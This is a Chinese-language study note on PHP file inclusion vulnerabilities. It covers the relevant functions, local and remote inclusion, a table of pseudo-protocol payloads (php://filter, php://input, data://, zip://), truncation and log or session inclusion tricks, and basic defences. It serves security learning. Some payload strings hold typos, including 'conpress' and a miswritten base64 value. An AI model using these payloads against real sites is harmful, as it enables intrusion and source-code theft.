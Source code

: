 # 文件包含漏洞
### 文件包含函数
* include
* include_once
* require
* require_once
* highlight_file、show_source、readfile、file_get_contents、fopen、file
### 文件包含漏洞分类
* 本地文件包含
* 远程文件包含
* allow_url_fopen:为on时，能读取远程文件，例如:file_get_contents()就能读取远程文件。
* allow_url_include: 为on时，就可以使用include和require等方式包含远程文件

## 文件包含漏洞的利用方式-伪协议

**测试PHP版本>=5.2**

| 协议              | allow_url_fopen | allow_url_include | 用法                                                         |
| ----------------- | --------------- | ----------------- | ------------------------------------------------------------ |
| file://           | off/on          | off/on            | ?file=file://D:/phpcode.text                                 |
| php://filter      | off/on          | off/on            | ?file=php://filter/read=convert.base64-encode/resource=./index.php |
| php://input       | off/on          | **on**            | ?file=php://input <?php phpinfo()?>                          |
| zip://            | off/on          | off/on            | ?file=zip://D:/file.zip%23phpcode.text                       |
| compress.bzip2:// | off/on          | off/on            | ?file=conpress.bzip2://D://file.bz2\|?file=compress.bzip2://./file.bz2 |
| compress.zlib://  | off/on          | off/on            | ?file=conpress.zlib://D://file.gz                            |
| data://           | **on**          | **on**            | ?file=data://text/plain,<? php phpinfo()?>\|?file=data://text/plain;base64,PD9waHagcGhwaW5mbygpPz4=\|?file=data:text/plain,<? php phpinfo()?>\|?file=data:text/plain;base64,PD9waHagcGhwaW5mbygpPz4= |

php://filter是一种原封装器，设计用于数据流打开时的筛选过滤应用

data://同样类似与php://input，可以让用户来控制输入流

php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行

phar://xxx.png/shell.php解压缩包的一个函数，不管后缀是什么，都会当作压缩包来解压

## 文件包含漏洞的利用方式-其他

* 00截断
* 长度截断
* 包含日志文件
  * Windows：256
  * Linux：4096
* 包含session

### 文件包含的防御

* PHP中使用open_basedir配置限制访问在指定的区域
* 过滤.(点)/(斜杠)\\(反斜杠)
* 禁止服务器远程文件包含
* 尽量不要使用动态包含，可以在需要包含的页面固定写好